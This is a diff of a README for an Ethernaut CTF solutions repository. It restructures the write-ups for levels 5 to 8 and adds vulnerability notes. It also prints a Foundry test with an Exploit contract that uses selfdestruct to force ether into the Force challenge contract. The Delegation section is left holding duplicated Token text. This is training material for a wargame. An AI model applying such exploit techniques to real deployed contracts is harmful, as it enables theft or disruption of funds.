

Before and after one commit to mRn0b0dye/EthernautCTF-Foundry, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -160,27 +211,44 @@ contract Exploit {
 ---
 
-### <a id='Level05'></a> Level 5: Token👌
+## Level 5: Token
+
+> **Objective:** Get additional tokens beyond the initial 20 tokens.
+
+**Challenge Files:**
+- [Vulnerable Contract](/src/Token/Token.sol)
+
+**Vulnerability:** Integer underflow in transfer function (pre-Solidity 0.8 without SafeMath).
+
+**POC:** *(To be documented)*
+
+---
+
+## Level 6: Delegation
 > **You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.**
 - **[CODE](/src/Token/Token.sol)**
 - **POC**
 ```javascript
 
 ```
+> **You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.**
+- **[CODE](/src/Token/Token.sol)**
+- **POC**
+```solidity
+
+```
+
 ---
 
-### <a id='Level06'></a> Level 6: Delegation
-> **Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.**
-- **[CODE](/src/Delegation/Delegation.sol)**
-- **POC**
-```javascript
+## Level 7: Force
+> **Objective:** Make the balance of the Force contract greater than zero.
 
-```
----
-### <a id='Level07'></a> Level 7: Force
-> **The goal of this level is to make the balance of the contract greater than zero.**
-- **[CODE](/src/Force/Force.sol)**
-- **POC**
-```javascript
+**Challenge Files:**
+- [Vulnerable Contract](/src/Force/Force.sol)
+
+**Vulnerability:** `selfdestruct()` bypasses contract receive/fallback - forces ETH transfer.
+
+**POC - Test Contract:**
+```solidity
 // SPDX-License-Identifier: MIT
 pragma solidity ^0.8.0;
 
@@ -195,7 +263,6 @@ contract ForceTest is Test {
     }
 
     function test_Force() public {
-        /** EXPLOIT START **/
         console.log("Balance before exploit:", address(force).balance);
         vm.deal(address(this), 1 ether);
         Exploit exploit = new Exploit{value: 1 ether}(payable(address(force)));
@@ -209,15 +276,16 @@ contract ForceTest is Test {
 contract Exploit {
     constructor(address payable _target) payable {
         selfdestruct(_target);
-        // @explain `selfdestruct` sends all Ether in this contract to the target address forcefully. If the target contract has no payable functions or fallback, receive functions, it still receives the Ether.
+        // selfdestruct sends all Ether in this contract to the target address forcefully
     }
 }
 ```
+
+**Key Insights:**
+- `selfdestruct()` forces ETH transfer even without payable functions
+- No receive/fallback can prevent `selfdestruct` transfers
+- Modern Solidity (0.8.18+) deprecates `selfdestruct` for security
 ---
 
-### <a id='Level08'></a> Level 8: Vault
-> **The goal of this level is to unlock the vault.**
-- **[CODE](/src/Vault/Vault.sol)**
-- **POC**
-```javascript
+## Level 8: Vault
 
````
Also changed, not shown: other parts of README.md (+212 -84 lines).
